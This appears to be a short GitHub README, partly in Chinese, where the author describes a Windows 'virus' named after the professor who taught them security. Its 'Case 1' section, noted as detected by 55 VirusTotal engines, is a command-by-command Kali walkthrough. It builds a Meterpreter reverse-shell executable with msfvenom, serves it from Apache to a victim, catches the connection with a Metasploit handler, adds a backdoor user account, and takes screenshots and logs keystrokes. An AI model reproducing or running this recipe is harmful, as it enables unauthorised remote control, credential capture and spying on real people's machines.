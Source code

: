 #### Jimmy是教我資安的教授，我用他的名字來命名病毒
#### (我真的很感謝他帶我踏入資安)

#### [Case 1: (55) Detected on virustotal] only msfvenom
    1_[kali]#> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.246 LPORT=8888 -f exe > /var/www/html/jimmy1.exe
    2_[kali]#> service apache2 start
    3_[kali]#> msfconsole
    4_[kali]msf> use exploit/multi/handler
    5_[kali]msf> set payload windows/meterpreter/reverse_tcp
    6_[kali]msf> set lhost 10.0.0.43
    7_[kali]msf> set lport 8888
    8_[kali]msf> run
    9_[windows] http://10.0.0.43/virus1.exe
    10_[windows]execute virus1.exe
    11_[kali]meterpreter > shell  
    12_net user /add jimmy 123456
    13_[kali]meterpreter > screenshot 
    14_[kali]meterpreter > keyscan_start
    15_[kali]meterpreter > keyscan_dump
    16_[kali]meterpreter > keyscan_stop

